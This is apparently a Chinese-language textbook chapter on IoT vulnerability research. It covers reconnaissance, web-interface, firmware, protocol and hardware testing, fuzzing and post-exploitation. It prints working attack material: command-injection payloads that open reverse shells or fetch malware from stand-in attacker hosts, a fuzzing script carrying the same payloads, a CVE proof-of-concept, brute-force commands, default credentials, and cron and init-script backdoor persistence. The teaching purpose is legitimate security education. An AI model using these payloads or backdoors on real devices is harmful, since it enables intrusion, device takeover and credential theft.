


## 22.3 IoT设备漏洞挖掘方法

IoT设备的攻击面远大于传统IT系统——它同时涵盖硬件层、固件层、通信协议层、Web管理层和云端API层。一个典型的消费级IoT设备（如路由器、摄像头）可能同时暴露数十个可利用的攻击向量。本节建立系统化的漏洞挖掘方法论，从信息收集到漏洞验证，覆盖每个关键层面。

### 22.3.1 IoT漏洞挖掘总览与方法论

IoT设备漏洞挖掘不是"拿到设备就开测"的随机行为，而是一个有结构的系统工程。下图展示了完整的IoT漏洞挖掘工作流：



#### IoT攻击面分层模型

| 层级 | 攻击面示例 | 典型漏洞类型 | 常用工具 |
|------|-----------|-------------|---------|
| Web管理层 | HTTP管理界面、REST API、WebSocket | SQL注入、XSS、命令注入、认证绕过 | Burp Suite、gobuster、sqlmap |
| 固件/二进制层 | 固件包、守护进程、CGI程序 | 缓冲区溢出、硬编码凭据、命令注入 | Ghidra、Binwalk、GDB |
| 通信协议层 | MQTT、CoAP、Zigbee、BLE、Z-Wave | 未认证订阅、明文传输、重放攻击 | Wireshark、mqtt-explorer、nRF Connect |
| 云端/API层 | 移动APP通信、云平台接口、OTA更新 | 不安全的API、中间人攻击、未验证更新 | mitmproxy、Frida、JADX |
| 硬件层 | UART、JTAG、SPI、I2C | 未保护的调试接口、固件提取 | Bus Pirate、逻辑分析仪、JTAGulator |

#### 信息收集阶段

在开始任何测试之前，必须完成全面的信息收集。遗漏信息意味着遗漏漏洞。

**外部侦察**——从互联网上尽可能多地了解目标设备：

```bash
# Shodan搜索特定型号设备
# 在Shodan搜索框输入：http.title:"路由器管理" country:"CN"
# 或使用Shodan CLI
shodan search "http.title:\"Web UI\" org:\"Manufacturer\"" --fields ip_str,port,org

# 使用FOFA搜索（对国内设备效果更好）
# 搜索特定设备的Web界面特征

# Nmap快速扫描
nmap -sV -sC -O -p- --min-rate 1000 192.168.1.0/24

# 识别IoT设备的UPnP服务
nmap -sU -p 1900 --script upnp-info 192.168.1.0/24

# mDNS/SSDP设备发现
avahi-browse -a -t     # mDNS发现
gssdp-discover          # SSDP发现
```

**协议指纹识别**——确认设备使用了哪些通信协议：

```bash
# 抓包分析
tcpdump -i eth0 -w iot_traffic.pcap -s 0

# 查看MQTT流量（默认端口1883）
tcpdump -i eth0 port 1883 -A

# 查看CoAP流量（默认端口5683/UDP）
tcpdump -i eth0 port 5683

# 查看Zigbee信道（需要专用硬件如CC2531）
# 使用KillerBee框架
zbdump -f 15 -c 11 -w zigbee.pcap
```

### 22.3.2 Web管理层漏洞测试

绝大多数IoT设备都提供了Web管理界面，这是最常被攻击的入口。Web管理层的漏洞挖掘方法与传统Web应用测试类似，但IoT设备有其特殊性：固化的HTTP框架、过时的Web服务器、有限的输入过滤。

#### 目录与接口发现

IoT设备的Web界面通常隐藏了大量未在主菜单中展示的接口——调试页面、固件更新端点、诊断工具、配置导出接口。发现这些隐藏接口是挖掘漏洞的第一步。

```bash
# gobuster目录扫描（推荐，速度快）
gobuster dir -u http://192.168.1.1 \
  -w /usr/share/wordlists/dirb/common.txt \
  -t 50 \
  -x html,asp,jsp,php,cgi \
  -o gobuster_results.txt

# dirb扫描（支持递归）
dirb http://192.168.1.1 /usr/share/wordlists/dirb/common.txt

# wfuzz模糊测试（支持自定义Payload）
wfuzz -c -z file,/usr/share/wordlists/dirb/common.txt \
  --hc 404 http://192.168.1.1/FUZZ

# 针对IoT设备优化的字典——关注常见IoT路径
# /goform/       -- Realtek/多家厂商常用
# /cgi-bin/      -- CGI程序目录
# /api/          -- REST API端点
# /debug/        -- 调试页面
# /upgrade.htm   -- 固件升级页面
# /backup.cfg    -- 配置备份文件
# /etc_ro/       -- 只读配置目录（部分路由器暴露）
```

**IoT专用字典构建**——通用字典对IoT设备不够用，需要针对目标厂商定制：

```bash
# 从固件文件系统提取路径
grep -rn "cgi" ./squashfs-root/etc/httpd/ 2>/dev/null
grep -rn "location" ./squashfs-root/www/ 2>/dev/null

# 从JavaScript中提取API端点
grep -rnoP '"/[a-zA-Z0-9/_-]+\.(asp|cgi|htm)"' ./squashfs-root/www/

# 从移动APP中提取API（反编译APK后）
grep -rn "http://" decompiled_app/ | grep -i "api\|endpoint\|url"
```

#### 默认凭据与认证绕过

IoT设备最普遍的漏洞之一就是默认凭据。许多设备出厂时使用admin:admin、root:root等默认密码，且用户从不修改。

```bash
# hydra暴力破解HTTP Basic Auth
hydra -l admin -P /usr/share/wordlists/rockyou.txt \
  192.168.1.1 http-get /admin -t 4

# hydra暴力破解HTTP POST表单登录
hydra -l admin -P passwords.txt 192.168.1.1 http-post-form \
  "/login:username=^USER^&password=^PASS^:Login Failed" -t 4

# medusa多协议破解
medusa -h 192.168.1.1 -u admin -P /usr/share/wordlists/rockyou.txt -M http

# 从固件中提取硬编码凭据（更高效）
grep -rn "password\|passwd\|credentials\|secret" \
  ./squashfs-root/etc/ --include="*.conf" --include="*.ini" --include="*.cfg"
```

**常见默认凭据清单**（来源于公开数据库和固件分析）：

| 厂商 | 用户名 | 密码 | 来源 |
|------|-------|------|------|
| TP-Link | admin | admin | 出厂默认 |
| D-Link | admin | （空） | 出厂默认 |
| Netgear | admin | password | 出厂默认 |
| Huawei | root | admin | 出厂默认 |
| 海康威视 | admin | 12345 | 出厂默认 |
| Dahua | admin | admin | 出厂默认 |
| 小米 | （无Web默认） | （通过APP绑定） | 绑定模式 |
| OpenWrt | root | （空） | 默认无密码 |

> **注意**：实际测试时应使用从固件分析中发现的凭据，而非仅依赖公开列表。许多厂商会在固件中硬编码维护后门账户。

#### 命令注入漏洞

IoT设备的Web接口经常直接将用户输入传递给系统shell命令执行——最典型的场景是ping诊断工具、traceroute功能、DNS查询、NTP时间同步设置。这是IoT设备中最高频、最高危的漏洞类型。

```bash
# 手动测试命令注入——在所有输入字段尝试以下Payload
# 场景：Ping诊断页面的Host输入框

# 命令分隔符注入
; ls
| cat /etc/passwd
|| id
&& whoami
%0a id                    # URL编码的换行符
%0d%0a id                 # URL编码的回车+换行

# 命令替换注入
$(whoami)
$(cat /etc/shadow)
`id`
`cat /etc/passwd`

# 管道与重定向
127.0.0.1 > /tmp/test
127.0.0.1 | nc attacker_ip 4444 -e /bin/sh
127.0.0.1; wget http://attacker_ip/malware -O /tmp/malware; chmod +x /tmp/malware; /tmp/malware

# 编码绕过（对抗简单过滤）
127.0.0.1%0a%0dcat%20/etc/passwd
127.0.0.1`$IFS`cat`$IFS`/etc/passwd    # 利用$IFS代替空格
c'a't /etc/passwd                        # 引号拼接绕过
```

**自动化命令注入测试工具commix**：

```bash
# 基本用法——自动检测GET参数中的命令注入
python commix.py --url="http://192.168.1.1/ping?host=127.0.0.1"

# 测试POST参数
python commix.py --url="http://192.168.1.1/diag" \
  --data="host=127.0.0.1&action=ping"

# 测试Cookie中的注入点
python commix.py --url="http://192.168.1.1/admin" \
  --cookie="session=test;lang=en"

# 自动获取交互式shell
python commix.py --url="http://192.168.1.1/ping?host=127.0.0.1" \
  --os-cmd="id"
```

**真实CVE案例——CVE-2020-10987（TP-Link路由器命令注入）**：

TP-Link WR841N路由器的`/cgi`接口在处理`wan`参数时未过滤分号，攻击者可以通过发送如下请求实现远程命令执行（无需认证）：

```bash
# PoC：无需认证即可执行任意命令
curl "http://192.168.0.1/cgi?7&2&wan;id>/tmp/test"
```

这个漏洞的根因是CGI程序直接将HTTP参数拼接到系统命令中，没有做任何输入过滤或参数转义。

#### 认证绕过技术

除了暴力破解默认凭据，IoT设备还常存在认证绕过漏洞：

```bash
# 1. 直接访问未认证的API端点（绕过前端界面限制）
curl http://192.168.1.1/api/system/config   # 配置导出
curl http://192.168.1.1/backup.cfg           # 配置备份下载
curl http://192.168.1.1/cgi-bin/export.cgi   # 配置导出CGI

# 2. 目录遍历绕过认证
curl http://192.168.1.1/../admin/config.htm
curl http://192.168.1.1/admin%00/config.htm  # 空字节截断

# 3. HTTP方法绕过
curl -X PUT http://192.168.1.1/api/config -d '{"password":"hacked"}'
curl -X OPTIONS http://192.168.1.1/admin/    # 探测允许的方法

# 4. 修改Referer/Origin头绕过CSRF防护
curl -H "Referer: http://192.168.1.1/admin/" \
  http://192.168.1.1/api/change_password?new=attacker123
```

#### 其他Web层漏洞

IoT Web管理界面常见的其他漏洞类型：

**XSS（跨站脚本）**：IoT设备的Web界面很少做输出编码，几乎所有用户输入字段都可能存在反射型或存储型XSS。测试方法是在所有输入框注入`<script>alert(1)</script>`及各种编码变体。

**CSRF（跨站请求伪造）**：大部分IoT设备的Web管理界面完全没有CSRF防护。攻击者可以通过构造恶意网页，在用户浏览器中自动修改设备密码、关闭防火墙、开启远程管理。

**信息泄露**：

```bash
# 常见的信息泄露端点
curl http://192.168.1.1/etc_ro/Wireless/RT2860AP.dat   # WiFi配置
curl http://192.168.1.1/etc/passwd                       # 系统用户
curl http://192.168.1.1/proc/version                     # 内核版本
curl http://192.168.1.1/tmp/system.env                   # 环境变量
curl http://192.168.1.1/syslog.htm                       # 系统日志
```

### 22.3.3 固件漏洞分析

固件是IoT设备的"灵魂"——包含操作系统、应用程序、配置和密钥。固件分析是IoT安全研究的核心技能，能够发现Web接口测试无法触及的深层漏洞。

#### 固件获取方法

获取固件是分析的前提。按优先级排序：

1. **官网下载**：大多数厂商在官网提供固件下载，这是最简单的方式
2. **固件更新API抓包**：设备自动更新时抓取下载URL
3. **OTA更新包拦截**：通过mitmproxy拦截手机APP发起的OTA更新请求
4. **硬件提取**：通过SPI/I2C闪存芯片直接读取（最后一招）

```bash
# 拦截OTA更新请求（设置代理后）
mitmproxy -p 8080 --mode transparent
# 在手机上触发固件更新，观察下载URL

# 从设备运行时提取（如果已有shell）
cat /dev/mtd0 > /tmp/firmware_backup.bin    # MTD分区备份
dd if=/dev/mtdblock0 of=/tmp/fw.bin bs=64k  # 块设备备份
```

#### 固件解包与文件系统提取

```bash
# binwalk：固件分析的瑞士军刀
# 扫描固件结构
binwalk firmware.bin

# 提取所有内容（自动递归解压）
binwalk -e firmware.bin

# 指定递归深度（防止无限递归）
binwalk -eM firmware.bin

# 使用fact工具（更智能的固件分析框架）
# 安装：pip install fact-extractor
# 启动Web界面后上传固件，自动分析并生成报告

# 手动解包squashfs文件系统
unsquashfs -d squashfs-root filesystem.squashfs

# 解压cramfs
cramfsck -x extracted cramfs.img

# 处理加密固件——常见加密模式
# 1. 固件头部明文+尾部加密
# 2. 整个固件使用厂商密钥加密
# 3. 使用设备MAC/序列号作为密钥（可逆）
# 加密固件需要逆向固件更新程序或提取密钥
```

#### 固件静态分析——发现漏洞的关键步骤

提取文件系统后，按以下优先级进行分析：

**优先级1：硬编码凭据与密钥**

```bash
# 搜索硬编码密码
grep -rn "password" ./squashfs-root/etc/ \
  --include="*.conf" --include="*.ini" --include="*.cfg" \
  --include="*.xml" --include="*.json"

# 搜索硬编码API密钥
grep -rn "api_key\|apikey\|secret_key\|token\|private_key" \
  ./squashfs-root/ --include="*.py" --include="*.js" --include="*.conf"

# 搜索数据库凭据
grep -rn "mysql\|sqlite\|mongo\|redis" \
  ./squashfs-root/ --include="*.conf" | grep -i "pass\|auth"

# 搜索SSH密钥
find ./squashfs-root/ -name "*.pem" -o -name "*.key" -o -name "id_rsa"

# 搜索证书和私钥
find ./squashfs-root/ -name "*.crt" -o -name "*.p12" | while read f; do
  openssl x509 -in "$f" -noout -subject 2>/dev/null && echo "  -> $f"
done
```

**优先级2：危险函数调用（二进制漏洞）**

```c
// C/C++中的危险函数——缓冲区溢出的根源
// 必须在固件的所有ELF二进制中搜索这些函数

// 无边界检查的字符串操作
strcpy(dest, src);      // 替代：strncpy(dest, src, sizeof(dest)-1)
strcat(dest, src);      // 替代：strncat(dest, src, sizeof(dest)-strlen(dest)-1)
sprintf(buf, fmt, ...); // 替代：snprintf(buf, sizeof(buf), fmt, ...)
gets(buf);              // 替代：fgets(buf, sizeof(buf), stdin)

// 格式化字符串漏洞
printf(user_input);     // 替代：printf("%s", user_input)
syslog(LOG_INFO, user_input); // 同上

// 整数溢出
int len = user_controlled * element_size; // 可能溢出为负数
malloc(len); // 分配过小的内存
```

在Ghidra中查找危险函数的步骤：

```text
1. 打开Ghidra，导入目标ELF二进制文件
2. Analysis → Auto Analyze（等待反编译完成）
3. Search → For Strings，搜索 "/bin/sh"、"telnetd" 等后门标识
4. Search → For Labels，搜索 "strcpy"、"sprintf"、"system"、"exec"
5. 对每个危险函数调用：双击进入 → 分析参数来源 → 追踪数据流
6. 重点关注：从网络输入（socket/recv/HTTP参数）→ 未经校验 → 危险函数
```

**优先级3：命令注入后门**

```bash
# 在固件二进制中搜索system/exec/popen调用（命令注入入口）
grep -rn "system\|exec\|popen\|execve" \
  ./squashfs-root/usr/bin/ ./squashfs-root/usr/sbin/ \
  ./squashfs-root/www/cgi-bin/

# 搜索telnet后门（大量IoT设备在固件中预留telnetd）
grep -rn "telnetd" ./squashfs-root/
find ./squashfs-root/ -name "*.sh" -exec grep -l "telnetd" {} \;

# 搜索反向Shell
find ./squashfs-root/ -name "*.sh" -exec grep -l "nc " {} \;
find ./squashfs-root/ -name "*.sh" -exec grep -l "/bin/sh" {} \;
grep -rn "bash -i" ./squashfs-root/
grep -rn "mkfifo" ./squashfs-root/

# 搜索调试后门（厂商忘记删除的调试代码）
grep -rn "backdoor\|debug\|test_mode\|factory" \
  ./squashfs-root/ --include="*.sh" --include="*.conf"
```

**优先级4：敏感配置文件**

```bash
# Web服务器配置（可能暴露认证绕过线索）
find ./squashfs-root/ -name "httpd.conf" -o -name "lighttpd.conf" \
  -o -name "nginx.conf" | xargs cat

# init启动脚本（了解设备启动的服务和流程）
cat ./squashfs-root/etc/init.d/rcS
ls ./squashfs-root/etc/init.d/

# 密码文件
cat ./squashfs-root/etc/passwd
cat ./squashfs-root/etc/shadow

# 使用john或hashcat破解固件中的密码哈希
john --wordlist=/usr/share/wordlists/rockyou.txt shadow.txt
```

#### 二进制漏洞深度分析

对从固件中提取的关键二进制程序，进行更深入的漏洞分析：

**使用Ghidra进行逆向分析**：

```python
# Ghidra脚本：自动搜索危险函数调用并标记
# 保存为Python脚本，在Ghidra Script Manager中运行
from ghidra.program.model.symbol import RefType

dangerous_funcs = ["strcpy", "strcat", "sprintf", "gets", "scanf",
                    "system", "exec", "popen", "execl", "execlp"]

listing = currentProgram.getListing()
func_manager = currentProgram.getFunctionManager()
ref_manager = currentProgram.getReferenceManager()

for func in func_manager.getFunctions(True):
    for dangerous in dangerous_funcs:
        if func.getName() == dangerous:
            refs = ref_manager.getReferencesTo(func.getEntryPoint())
            for ref in refs:
                caller_addr = ref.getFromAddress()
                print("[!] {} called at {} in {}".format(
                    dangerous, caller_addr, 
                    getFunctionContaining(caller_addr)))
```

**栈缓冲区溢出利用流程**：

```text
1. 在Fuzzing中发现服务崩溃（SIGSEGV）
2. 使用pattern_create/pattern_offset确定偏移量
3. 确认控制了PC/RIP寄存器（EIP/RIP被覆盖为我们的数据）
4. 检查安全机制：NX（No-Execute）、ASLR、Stack Canary、PIE
5. 如果NX关闭：直接注入Shellcode到栈上并跳转
6. 如果NX开启：使用ROP（Return-Oriented Programming）链
7. 如果有Canary：需要信息泄露绕过或格式化字符串漏洞辅助
8. 编写EXP并测试可靠性
```

### 22.3.4 通信协议漏洞分析

IoT设备使用多种专用通信协议，每种协议都有其独特的安全风险。忽略协议层测试会遗漏大量漏洞。

#### MQTT协议安全测试

MQTT是IoT中最广泛使用的消息协议（基于发布/订阅模型），用于设备与云端、设备与设备之间的通信。默认端口1883（明文）和8883（TLS）。

```bash
# 安装mqtt-explorer（GUI工具，直观查看Topic树）
# 从https://mqtt-explorer.com/下载

# 使用mosquitto客户端工具测试
# 订阅所有Topic（通配符#）
mosquitto_sub -h 192.168.1.1 -t "#" -v

# 测试无认证连接
mosquitto_sub -h 192.168.1.1 -t "device/+/status" -v

# 使用默认凭据测试
mosquitto_sub -h 192.168.1.1 -u admin -P admin -t "#" -v
mosquitto_sub -h 192.168.1.1 -u mqtt -P mqtt -t "#" -v

# 发布消息到控制Topic（尝试控制设备）
mosquitto_pub -h 192.168.1.1 -t "device/light/switch" -m "on"
mosquitto_pub -h 192.168.1.1 -t "device/door/lock" -m "unlock"

# 使用mqtt-pwn进行自动化安全测试
# mqtt-pwn支持枚举、暴力破解、订阅窃取等
```

**MQTT常见安全问题**：

| 问题 | 描述 | 利用方式 |
|------|------|---------|
| 无认证 | 匿名连接即可订阅/发布 | 直接连接读取敏感数据或控制设备 |
| 弱认证 | 使用默认凭据或弱密码 | 暴力破解 |
| 未加密 | 使用明文1883端口 | 中间人嗅探所有消息 |
| ACL缺失 | 所有用户可读写所有Topic | 跨设备攻击、越权控制 |
| 遗嘱消息泄露 | Will消息暴露设备敏感信息 | 被动监听 |

#### CoAP协议安全测试

CoAP（Constrained Application Protocol）是为资源受限设备设计的轻量级HTTP替代协议，运行在UDP上，默认端口5683。

```bash
# 使用libcoap工具
# GET请求获取资源
coap-client -m get coap://192.168.1.1/.well-known/core

# 枚举所有可用资源
coap-client -m get coap://192.168.1.1/ -e ""

# PUT请求修改资源
coap-client -m put coap://192.168.1.1/led -e "on"

# DELETE请求删除资源
coap-client -m delete coap://192.168.1.1/config/temp

# 使用aiocoap（Python库）进行高级测试
python3 -c "
import asyncio
from aiocoap import *

async def main():
    protocol = await Context.create_client_context()
    request = Message(code=GET, uri='coap://192.168.1.1/.well-known/core')
    response = await protocol.request(request).response
    print(response.payload.decode())

asyncio.run(main())
"
```

#### 蓝牙低功耗（BLE）安全测试

BLE广泛用于可穿戴设备、智能家居配件、医疗设备等。需要专用硬件（如nRF52840 Dongle或Ubertooth One）配合软件工具。

```bash
# 使用nRF Connect（手机APP）或gatttool（Linux）进行设备发现
# 扫描BLE设备
hcitool lescan

# 连接并枚举GATT服务
gatttool -b AA:BB:CC:DD:EE:FF -I
> connect
> primary         # 列出所有Primary Service
> characteristics # 列出所有Characteristic

# 使用bettercap进行BLE嗅探与攻击
sudo bettercap
> ble.recon on           # BLE设备扫描
> ble.show               # 显示发现的设备
> ble.enum AA:BB:CC:DD:EE:FF  # 枚举目标设备服务

# 使用nRF Connect SDK（原sniffle）进行BLE嗅探
# 需要nRF52840 Dongle作为嗅探器
```

**BLE常见安全问题**：

- 未配对即可读写敏感Characteristics（如设备控制特征值）
- 使用Just Works配对模式（无MITM保护）
- 固定MAC地址（可被追踪）
- 固件更新服务未验证签名（OTA注入恶意固件）
- 自定义协议使用弱加密或明文传输

#### Zigbee安全测试

Zigbee用于智能家居设备之间的低功耗Mesh网络通信。需要专用硬件（CC2531 USB Dongle配合KillerBee固件）。

```bash
# 使用KillerBee框架
# 安装：pip install killerbee

# 扫描Zigbee信道
zbgfind

# 嗅探Zigbee流量
zbdump -f 15 -c 11 -w zigbee_capture.pcap

# 重放攻击（重放之前捕获的数据包）
zbreplay -f 15 -c 11 -r zigbee_capture.pcap

# 提取网络密钥（如果使用默认密钥或已知密钥）
# Zigbee默认信任中心密钥：5A6967426565416C6C69616E63653039

# 使用zbstumbler发现Zigbee网络
zbstumbler -c 11
```

### 22.3.5 硬件层漏洞挖掘

当固件获取受阻（加密固件、无法从官网下载）时，硬件层攻击是提取固件和获取shell的终极手段。

#### UART接口

UART（通用异步收发器）是最常见的调试接口，通常在PCB板上以排针形式暴露。许多设备出厂时UART调试接口未被禁用。

```bash
# 1. 使用万用表识别UART引脚
# VCC（3.3V/5V）、GND（0V）、TX（电压跳变）、RX（电压稳定高电平）

# 2. 使用逻辑分析仪确认波特率
# 常见波特率：9600、38400、57600、115200
# 使用sigrok + PulseView分析波形自动检测波特率

# 3. 连接USB转TTL适配器（如CP2102/CH340）
# 连接方式：设备TX → 适配器RX，设备RX → 适配器TX，GND → GND
# VCC通常不接（由设备自身供电）

# 4. 使用minicom/screen连接
screen /dev/ttyUSB0 115200
# 或
minicom -D /dev/ttyUSB0 -b 115200
# 或
picocom -b 115200 /dev/ttyUSB0
```

连接成功后可能获得：
- U-Boot命令行（可修改启动参数绕过密码）
- Linux root shell（完全控制设备）
- 固件加载日志（泄露敏感信息）

#### JTAG接口

JTAG（联合测试行动组）是标准化的调试接口，可以读取/写入设备内存、设置断点、提取完整固件。

```bash
# 使用JTAGulator自动识别JTAG引脚
# JTAGulator会自动扫描所有可能的引脚组合

# 使用OpenOCD连接JTAG
openocd -f interface/ftdi/olimex-arm-usb-tiny-h.cfg \
  -f target/realtek_rtl8196e.cfg

# 通过JTAG读取固件
telnet localhost 4444
> dump_image firmware.bin 0xBFC00000 0x1000000
> exit
```

#### SPI/I2C闪存读取

当设备使用外部闪存芯片存储固件时，可以直接用编程器读取芯片内容。

```bash
# 使用flashrom读取SPI闪存
# 安装：apt install flashrom
flashrom -p ch341a_spi -r firmware_dump.bin

# 使用Bus Pirate读取SPI闪存
# 连接：CS、MISO、MOSI、CLK、VCC、GND

# 使用binwalk分析提取的固件
binwalk firmware_dump.bin
binwalk -e firmware_dump.bin

# 使用flashrom读取I2C EEPROM
flashrom -p buspirate_spi:dev=/dev/ttyUSB0,spispeed=1M -r eeprom.bin
```

### 22.3.6 Fuzzing与自动化漏洞发现

Fuzzing是发现未知漏洞最高效的方法。对IoT设备的Fuzzing分为网络协议Fuzzing和文件格式Fuzzing两大类。

#### 网络协议Fuzzing

```python
# 使用boofuzz框架对IoT服务进行协议Fuzzing
from boofuzz import *

def main():
    # 定义目标
    session = Session(
        target=Target(
            connection=SocketConnection("192.168.1.1", 80, proto='tcp')
        ),
        sleep_time=0.5,       # 请求间隔（IoT设备响应慢）
        restart_threshold=10,  # 崩溃后等待恢复
        restart_sleep_time=5   # 重启等待时间
    )

    # 定义HTTP请求的Fuzzing模板
    s_initialize("http_request")
    s_string("GET", fuzzable=False)
    s_delimiter(" ", fuzzable=False)
    s_string("/index.html", fuzzable=True)  # Fuzzing URL路径
    s_delimiter(" ", fuzzable=False)
    s_string("HTTP/1.1", fuzzable=False)
    s_static("\r\n")
    s_string("Host:", fuzzable=False)
    s_delimiter(" ", fuzzable=False)
    s_string("192.168.1.1", fuzzable=True)  # Fuzzing Host头
    s_static("\r\n\r\n")

    session.connect(s_get("http_request"))
    session.fuzz()

if __name__ == "__main__":
    main()
```

#### IoT固件中的CGI Fuzzing

```python
# 针对IoT设备CGI程序的输入参数进行Fuzzing
import requests
import itertools

# 常见的IoT CGI参数
params_to_fuzz = [
    "host", "cmd", "ip", "url", "path", "file", "dir",
    "ping", "nslookup", "traceroute", "user", "password"
]

# 命令注入Payload集
injection_payloads = [
    "; id", "| id", "|| id", "&& id",
    "$(id)", "`id`", "\n id", "\r\n id",
    "; cat /etc/passwd", "| cat /etc/shadow",
    "$(wget http://attacker.com/shell.sh)",
    "; nc -e /bin/sh attacker.com 4444",
    "%0a id", "%0d%0a id", "';id;'",
    '"`id`"', '$(sleep 5)',  # 时间盲注
]

base_url = "http://192.168.1.1/cgi-bin/"

for param in params_to_fuzz:
    for payload in injection_payloads:
        try:
            r = requests.get(
                base_url + "test.cgi",
                params={param: "127.0.0.1" + payload},
                timeout=10
            )
            # 检查命令执行结果
            if "root:" in r.text or "uid=" in r.text:
                print(f"[CRITICAL] Command injection via {param}!")
                print(f"  Payload: {payload}")
                print(f"  Response: {r.text[:200]}")
        except requests.Timeout:
            # 超时可能意味着sleep命令被执行了（盲注）
            print(f"[INFO] Timeout with {param}={payload} (possible blind injection)")
        except Exception as e:
            pass
```

### 22.3.7 移动APP与云端API分析

现代IoT设备通常通过手机APP进行控制，APP通过云端API与设备通信。分析这条链路可以发现大量漏洞。

#### 移动APP分析

```bash
# 1. APK反编译
apktool d target_app.apk -o decompiled/
jadx-gui target_app.apk      # 使用JADX进行交互式反编译

# 2. 提取硬编码密钥和API端点
grep -rn "api\|key\|secret\|token\|password\|http://" \
  decompiled/smali/ --include="*.smali"
grep -rn "http\|api\|endpoint" decompiled/assets/ 2>/dev/null

# 3. 使用Frida Hook关键函数
# 从APP中提取加密密钥
frida -U -f com.target.app -l hook_crypto.js

# hook_crypto.js示例：
# Java.perform(function() {
#     var SecretKeySpec = Java.use("javax.crypto.spec.SecretKeySpec");
#     SecretKeySpec.$init.overload("[B", "java.lang.String").implementation = function(key, algo) {
#         console.log("Algorithm: " + algo);
#         console.log("Key: " + bytesToHex(key));
#         return this.$init(key, algo);
#     };
# });
```

#### 云端API测试

```bash
# 使用mitmproxy拦截APP与云端的通信
mitmproxy -p 8080 --mode transparent
# 手机设置代理指向运行mitmproxy的主机

# 常见的云端API安全问题：
# 1. API未做速率限制（暴力破解登录）
# 2. 不安全的直接对象引用（IDOR）——通过修改device_id控制他人设备
# 3. JWT token未验证签名（伪造管理员权限）
# 4. 设备注册接口无需验证（批量注册僵尸设备）
# 5. OTA更新未验证签名（劫持更新推送恶意固件）

# 使用Burp Suite测试API
# 导出mitmproxy捕获的请求到Burp Repeater中逐个测试
```

### 22.3.8 漏洞利用与后渗透

发现漏洞后，下一步是验证其可利用性并评估实际影响。

#### 获取设备Shell后的常见操作

```bash
# 基本信息收集
uname -a                  # 内核版本
cat /proc/cpuinfo         # CPU信息
cat /proc/meminfo         # 内存信息
df -h                     # 磁盘使用
ifconfig                  # 网络接口
netstat -tulpn            # 监听端口
cat /etc/passwd           # 用户列表
ps aux                    # 运行中的进程

# 提取敏感信息
cat /etc/shadow           # 密码哈希
find / -name "*.conf" -o -name "*.key" -o -name "*.pem" 2>/dev/null
cat /proc/*/environ       # 进程环境变量（可能含密钥）

# 网络后门植入
# 反向Shell（确保攻击机监听：nc -lvnp 4444）
nc -e /bin/sh ATTACKER_IP 4444
# 或
bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1

# 持久化
# 在crontab中添加后门
echo "*/5 * * * * /tmp/backdoor.sh" >> /etc/crontabs/root
# 修改启动脚本
echo "/tmp/backdoor.sh &" >> /etc/init.d/rcS
```

### 22.3.9 常见误区与最佳实践

#### 常见错误

| 错误 | 后果 | 正确做法 |
|------|------|---------|
| 只测试Web界面就认为"已安全" | 遗漏固件/协议/硬件层漏洞 | 按分层模型逐层测试 |
| 使用rockyou.txt暴力破解IoT设备 | 效率极低，IoT密码通常很简单 | 优先从固件中提取硬编码凭据 |
| 忽略物理安全 | 攻击者通过硬件接口获取shell | 检查UART/JTAG/SPI是否暴露 |
| 在生产环境直接Fuzzing | 导致设备固件损坏变砖 | 备份固件，准备好恢复手段 |
| 不保存测试过程 | 无法复现漏洞 | 使用script录制终端会话 |
| 只关注单个漏洞 | 低估风险 | 评估漏洞链的组合利用效果 |

#### 最佳实践

1. **备份优先**：在进行任何破坏性测试之前，通过硬件接口备份完整固件
